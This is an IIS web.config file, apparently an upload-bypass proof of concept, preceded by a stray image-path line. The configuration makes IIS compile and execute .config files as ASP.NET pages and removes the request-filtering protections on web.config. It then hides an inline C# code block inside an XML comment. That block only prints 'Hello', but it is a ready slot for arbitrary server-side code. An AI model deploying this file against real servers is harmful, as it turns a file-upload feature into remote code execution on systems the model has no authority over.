

<?xml version="1.0" encoding="UTF-8"?>
<configuration><system.web><compilation>
    <buildProviders>
        <add extension=".config" type="System.Web.Compilation.PageBuildProvider"  />
    </buildProviders>
</compilation></system.web><system.webServer>
    <handlers><add name="aspx test" path="*.config" verb="*" type="System.Web.UI.PageHandlerFactory" resourceType="Unspecified" preCondition="integratedMode" /></handlers>
    <security>
        <requestFiltering>
            <fileExtensions><remove fileExtension=".config" /></fileExtensions>
            <hiddenSegments><remove segment="web.config" /></hiddenSegments>
 </requestFiltering></security></system.webServer></configuration>
<!--
<%@ Page Language="C#"%>
<%
   Response.Write("-" + "-" + ">");
   Response.Write("<h"+"1>Hello</h1>");
   Response.Write("<!" + "-" + "-");
%>
-->